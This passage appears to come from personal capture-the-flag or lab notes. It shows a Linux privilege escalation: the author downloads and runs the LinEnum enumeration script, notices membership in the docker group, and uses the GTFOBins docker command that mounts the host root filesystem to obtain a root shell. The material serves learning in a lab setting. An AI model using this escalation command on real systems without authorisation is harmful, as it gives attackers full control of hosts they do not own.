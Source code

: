After doing all checks we cannot see a way to escalate...

# linenum scan
So we use `linenum.sh` on the machine:
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
```

We make it executable:
```bash
chmod +x linenum.sh
```

And execute it:
```bash
./linenum.sh
```
- ![[Pasted image 20250118170721.png]]
- So we could use these permissions on docker to escalate



# Searching on GTFOBins
So we search `docker` on GTFOBINS:
- [https://gtfobins.github.io/](https://gtfobins.github.io/)
- ![[Pasted image 20250118170855.png]]

We are in the docker group so we are ok. Just check using the `shell` section:
- ![[Pasted image 20250118170936.png]]

So we run on the terminal:
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
- we changed `alpine` to bash because we are using `bash` in `ssh` on the host
- ![[Pasted image 20250118171114.png]]

<mark style="background: #BBFABBA6;">We gain a root shell!</mark>



